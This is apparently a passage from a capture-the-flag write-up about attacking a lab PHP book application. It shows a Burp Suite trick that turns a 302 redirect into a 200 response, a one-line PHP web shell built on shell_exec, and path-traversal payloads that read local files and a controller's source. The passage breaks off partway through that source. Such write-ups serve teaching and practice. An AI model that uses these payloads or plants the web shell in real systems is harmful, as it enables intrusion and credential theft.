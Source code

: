 
Checking the file management section, this make a redirection to index.php, we need tho intercept the communication to try to view the file management section.
We could use burpsuite for this.

``` bash
#Intercept the connection with burpsuite -> right click -> Do intercept -> Response to this request -> Forward
-> edit the HTTP/1.1 302 Found to -> HTTP/1.1 200 OK -> Forward
-> Options -> Match and Replace -> Add ->  Type: Response header -> Match 302 Found -> response 200 OK -> OK
```

In this way we can see the content and it's an upload application that only allow to upload .zip files
We can bypass this easily and upload a php file with a malicious code that allow us to execute commands.
``` bash
# create the php file
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

However there is another problem, Our user didn't have privileges to upload files, we need that an admin approve our user's rol.
It's seems that we need to find another way

Checking the book search section , when we try to open a book, this search in the local files to open the correct book , if we intercept the request with burp suite and change the local file name , maybe we can view sensitive local files
``` bash
file_get_contents(../books/book3.htm)
# using burpsuite and path traversal
book=../../../../../../../../Windows\System32\Drivers\etc\hosts&method=1
```

In this way we discovered a local file inclusion vulnerability
Taking advantage of this, we try to view the bookcontroller.php (http://10.10.10.228/includes/) script to gather more information about the system, in this script we found the path of the database file and in this we get credentials.
``` bash
# using burpsuite and path traversal
book=../includes/bookController.php&method=1

#edit the php file in nvim -> %s/\\r/\r/g -> %s/\\\//\//g

"<?php

if($_SERVER['REQUEST_METHOD'] == \"POST\"){
    $out = \"\";
    require '../db/db.php';

    $title = \"\";
    $author = \"\";

    if($_POST['method'] == 0){
        if($_POST['title'] != \"\"){
            $title = \"%\".$_POST['title'].\"%\";
        }
        if($_POST['author'] != \"\"){
            $author = \"%\".$_POST['author'].\"%\";
        }
        
    
        $query = \"SELECT * FROM books WHERE title LIKE ? OR author LIKE ?\";
        $stmt = $con->prepare($query);
        $stmt->bind_param('ss', $title, $author);
```